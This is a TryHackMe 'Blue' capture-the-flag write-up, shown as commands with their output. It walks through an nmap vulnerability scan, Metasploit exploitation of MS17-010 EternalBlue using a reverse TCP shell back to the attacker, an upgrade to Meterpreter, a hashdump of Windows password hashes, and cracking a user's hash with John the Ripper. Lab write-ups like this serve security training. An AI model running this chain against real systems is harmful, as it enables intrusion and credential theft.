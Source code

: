 TryHackMe - Blue | Writeup
Room:Blue
Difficulty: Easy
Writeup by: Sourav Mondal

Recon
namp scan...
nmap -sV --script vuln -T4 -oN nmap-vuln.txt 10.10.73.255
Nmap scan report for 10.10.73.255
Host is up (0.28s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-ccs-injection: No reply from server (TIMEOUT)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 16 16:00:14 2025 -- 1 IP address (1 host up)
find vunlerability
A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).

Gain Access

start metasploit
search ms17-010
msfconsole

[msf](Jobs:0 Agents:0) >> search ms17-010

Matching Modules
================

   #   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1     \_ target: Automatic Target                  .                .        .      .
msf](Jobs:0 Agents:0) >> use 0

[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set rhosts 10.10.73.255
rhosts => 10.10.73.255
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set lhost tun0

[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> run
[*] Started reverse TCP handler on 10.17.55.203:4444 
[*] 10.10.73.255:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.73.255:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
/usr/share/metasploit-framework/vendor/bundle/ruby/3.1.0/gems/recog-3.1.17/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 10.10.73.255:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.73.255:445 - The target is vulnerable.
[*] 10.10.73.255:445 - Connecting to target for exploitation.
[+] 10.10.73.255:445 - Connection established for exploitation.
[+] 10.10.73.255:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.73.255:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.73.255:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Pr
+] 10.10.73.255:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.73.255:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.73.255:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


C:\Windows\system32>

successfully exploited the vulnerability
Escalate privileges, learn how to upgrade shells in metasploit.
If you haven't already, background the previously gained shell (CTRL + Z). 
search shell to meterpeter

Background session 1? [y/N]  y


[msf](Jobs:0 Agents:1) exploit(windows/smb/ms17_010_eternalblue) >> search shell to meterpreter
  108    \_ target: Mac OS X                                                      .                .          .      .
   109  post/multi/manage/shell_to_meterpreter                                     .                normal     No     Shell to Meterpreter Upgrade
   110  exploit/multi/http/sonicwall_gms_upload                                    2012-01-17       excellent  Yes    SonicWALL GMS 6 Arbitrary File Upload
   111    \_ target: SonicWALL GMS 6.0 Viewpoint / Java Universal                  .           
[msf](Jobs:0 Agents:1) exploit(windows/smb/ms17_010_eternalblue) >> use 109
msf](Jobs:0 Agents:1) post(multi/manage/shell_to_meterpreter) >> show sessions

Active sessions
===============

  Id  Name  Type               Information  Connection
  --  ----  ----               -----------  ----------
  1         shell x64/windows               10.17.55.203:4444 -> 10.10.73.255:49175 (10.10.73.255)

  [msf](Jobs:0 Agents:1) post(multi/manage/shell_to_meterpreter) >> set session 1
session => 1
[msf](Jobs:0 Agents:1) post(multi/manage/shell_to_meterpreter) >> run
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.17.55.203:4433 
[*] Post module execution completed
[msf](Jobs:1 Agents:1) post(multi/manage/shell_to_meterpreter) >> 
[*] Sending stage (203846 bytes) to 10.10.73.255
[*] Meterpreter session 2 opened (10.17.55.203:4433 -> 10.10.73.255:49182) at 2025-07-16 16:23:43 +0530
[*] Stopping exploit/multi/handler

Meterpreter 1)(C:\Windows\system32) 
meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so.
Meterpreter 1)(C:\Windows\system32) > hashdump

save the non-default user hash a file i save hash.txt file.

Cracking

i use john the ripper tool crack the lm hash.
sudo john hash.txt --wordlist=/usr/share/SecList/Passwords/Leaked-Databases/rockyou.txt -format=NT
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (Jon)     
1g 0:00:00:02 DONE (2025-07-16 16:58) 0.3802g/s 3878Kp/s 3878Kc/s 3878KC/s alqueva1968..alpus
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 

